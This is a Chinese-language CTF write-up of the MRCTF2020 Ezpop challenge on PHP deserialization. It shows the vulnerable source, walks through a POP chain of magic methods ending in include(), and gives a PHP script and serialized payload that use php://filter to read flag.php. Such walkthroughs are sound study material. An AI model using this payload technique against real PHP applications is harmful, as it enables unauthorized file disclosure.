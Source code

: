 ```yaml
---

title: php反序列化——pop链2

date: 2021-03-28 20:00:44

tags: 练习

categories: test55

---
```

今天再复习一道php反序列化的题目，锻炼自己构造pop链的能力。  

# [MRCTF2020]Ezpop  
打开题目，直接就得到了源码。  

	 <?php
	//flag is in flag.php
	//WTF IS THIS?
	//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
	//And Crack It!
	class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
	}

	class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
	}

	class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
	
	
	if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
	}
	else{
    $a=new Show;
    highlight_file(__FILE__);
	}   

代码很长，但是根据我们之前做题的思路，首先就是找到可以执行命令的代码或者函数。  

可以看到在Modifier类中就有一个include()函数，推测我们可以用这个函数来执行include()文件包含漏洞。  

	class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
	}  

可以看到，include()函数里的变量$value是在下面的_invoke()方法中被赋值的，从之前的那道题目中可以知道，如果把一个类的对象当作函数调用，那么就会触发invoke()方法，而这个方法会调用一个自定义的方法，将把保护属性$var传入自定义方法append($value)，也就是将var的值赋予value，所以我们要想执行include()函数，就要给var传入参数。  

那么我们如何触发_invoke()方法呢？这里我们可以看到下面的test类里有可用的函数。  

	class Test{
	public $p;
	function __construct(){
    $this->p = array();
	}

	public function __get($key){
    $function = $this->p;
    return $function();
	}  

很明显，在Test类里的_get()方法会将p的值赋予$function并返回形如函数的形式$function()，而get()方法只会在访问不可访问或者不存在的属性的时候才会触发那么从哪里找一个不存在的属性呢？  

这就要看到Show类了。

	class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
	}

首先可以看到的是这个wakeup()方法，在反序列化开始的时候就会调用这个函数，而这个函数里又有一个正则匹配，匹配的是属性source，**在这里要注意一下，在正则匹配时，是把属性source当作字符串来处理的。**这让我们很容易就联系到上面的tostring_()方法，当一个类对象被当作字符串处理的时候，这个方法就会被返回。这里返回的$this->str->source;指的是返回str属性值的source属性，而这个source属性不正好就是Test类里没有的属性吗？  

所以到了这里我们大致就可以理出pop链了：  

我们首先从Show类开始，先触发wakeup方法，在wakeup的正则匹配中触发tostring方法，我们给str赋值Test()类，这样返回的就是Test类的source属性，而Test类里没有该属性，从而触发了get()方法，在get方法中我们给p赋值为Modifier类，这样最后返回的就是Modifier()，这样就是把类对象当作函数了，从而可以触发invoke()方法，而我们通过上传var参数来利用include()的文件包含漏洞。  

	unserialize()-->__wakeup()-->toString()-->__get()-->__invoke()-->append()-->include()  

我们这样构造  

	<?php
	class Modifier {
	protected  $var="php://filter/read=convert.base64-encode/resource=flag.php";//伪协议利用include()函数漏洞。

	}

	class Test{
    public $p;	
	}

	class Show{
    public $source;
    public $str;
    public function __construct(){
        $this->str = new Test();
    }
	}

	$a = new Show();
	$a->source = new Show();//这里是一个要注意的点，因为tostring()是在wakeup()方法中触发的，而这时匹配的是$source,所以我们要给source赋值show()类以此来进行接下来的tostring()方法。
	$a->source->str->p = new Modifier();//__get返回的p触发__invoke
	echo serialize($a);
	?>
	得到O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";N;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:6:" * var";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}}}s:3:"str";O:4:"Test":1:{s:1:"p";N;}}

由于var是protected类型，所以payload中需要用%00把它的位数补齐，或者直接最后url编码输出
最后传入pop得到base64编码，解码即得flag。  

[![](https://img.imgdb.cn/item/6064ac528322e6675cf319a5.png)](https://img.imgdb.cn/item/6064ac528322e6675cf319a5.png)  

解码可得。  

## 小结  
这道题目虽然代码大变样，但是思路不变，依旧是找可以执行命令的语句和能够操控的pop链，只要对魔术方法足够了解，代码审计能力足够强就可以做到。所以说还是要多加练习啊。